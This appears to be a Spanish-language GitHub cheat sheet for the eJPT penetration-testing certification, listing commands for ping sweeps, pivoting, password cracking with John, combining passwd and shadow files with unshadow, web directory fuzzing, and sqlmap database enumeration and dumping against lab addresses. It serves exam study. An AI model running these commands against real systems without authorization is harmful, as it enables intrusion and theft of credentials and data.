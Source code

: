 # eJPT-Cheatsheet
Todos los comandos necesarios para aprobar el eJPT
# Barrido de ping - Ping sweep
## Nmap
```sql
nmap -sn 10.10.10.0/24
```
## fping
```sql
fping -a -g 10.10.10.0/24 2>/dev/null
```
# Pivoting
## Ip Route
```sql
ip route add 10.10.16.0/24 via 10.10.16.1 dev tap0
```
## Metasploit
```sql
run autoroute -s 10.10.16.0/24
```
# Password cracking
## John
```python
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
## Online Tools
[CrackStation](https://crackstation.net/)
# Dump Hashes
## unshadow 
```sql
unshadow passwd shadow > unshadowed.txt
```
# Fuzzing
## Nmap
```python
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
```
## wfuzz
```python
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```
## dirb
```sql
dirb http://10.10.15.12
```
## gobuster
```sql
gobuster dir -u 10.10.14.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
# SQLMap
```sql
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```
